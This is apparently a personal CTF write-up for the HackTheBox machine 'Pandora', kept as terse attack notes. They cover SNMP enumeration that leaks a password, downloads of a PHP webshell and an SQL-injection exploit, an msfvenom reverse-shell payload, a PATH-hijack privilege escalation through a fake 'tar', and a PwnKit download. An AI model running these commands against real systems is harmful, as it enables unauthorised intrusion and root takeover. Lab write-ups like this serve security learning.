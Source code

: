 # Summary



## about target

tip:  10.129.141.83

hostname:  Pandora

Difficulty:  Easy



## about attack

+ snmp enum, snmpwalk/snmpbulkwalk/snmp-check, grep running process
+ udp scan, if no information from tcp port
+ path hijack to privesc, tar
+ Tar wild char privesc, recheck.



**attack note**

```bash
Pandora / 10.129.228.124

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24c295a5c30b3ff3173c68d7af2b5338 (RSA)
|   256 b1417799469a6c5dd2982fc0329ace03 (ECDSA)
|_  256 e736433ba9478a190158b2bc89f65108 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


---- Interesting


---- Enum 
# udp scan
scp daniel@$tip:/tmp/daniel-lp.log ./

ssh -Nf -L 8000:127.0.0.1:80 daniel@$tip
ss -tulpn

pxc wget https://github.com/WhiteWinterWolf/wwwolf-php-webshell/raw/master/webshell.php
vim webshell.php
pxc wget https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/raw/master/sqlpwn.py

python sqlpwn.py -h

python sqlpwn.py -t 127.0.0.1:8000 -f webshell.php

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f elf -o binary.elf

echo 'PandoraFMSSecurePass2021' >> creds.txt

-- web enum
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -t 20 -u http://$tip -o gobuster.log

-- snmp enum
# /usr/share/snmp/linux.txt
## no process parameters
found process, /usr/bin/host_check, strange.
snmpenum $tip public linux.txt

# snmpwalk
snmpwalk -c public -v2c panda.htb > snmpwalk-public-v2c.log

## bulkwalk, quicker than snmpwalk
snmpbulkwalk -c public -v2c panda.htb . > snmpbulkwalk-public-v2c.log
snmpbulkwalk -c public -v2c panda.htb . > snmpwalk.1
grep -i host_check snmpwalk.1
## grep the process, also found password.
grep -i host_check snmpwalk.1

## regular way to search

---- Foothold


---- System
# suid file 
/usr/bin/pandora_backup

nc -nvlp 9002 > pandora_backup

file pandora_backup
md5sum pandora_backup
strings pandora_backup

# execute pandora_backup failed, get suid permission failed.
# ssh key login
ssh-keygen -f matt
chmod 600 matt
scp -i matt matt@$tip:/tmp/matt-lp.log ./
scp -i matt matt@$tip:/home/matt/matt-lp2.log ./

echo "/bin/bash" > tar
export PATH=/home/matt:$PATH
/usr/bin/pandora_backup 

# got root

# way 2, pwnkit, suid pkexec
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
pxc curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit


```







# Enum

## nmap scan



```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```





## snmp enum



![image-20230115222124111](./images/image-20230115222124111.png)





# Foothold





# Privesc



## shell matt



![image-20230115234052808](./images/image-20230115234052808.png)



## proof

```bash


```



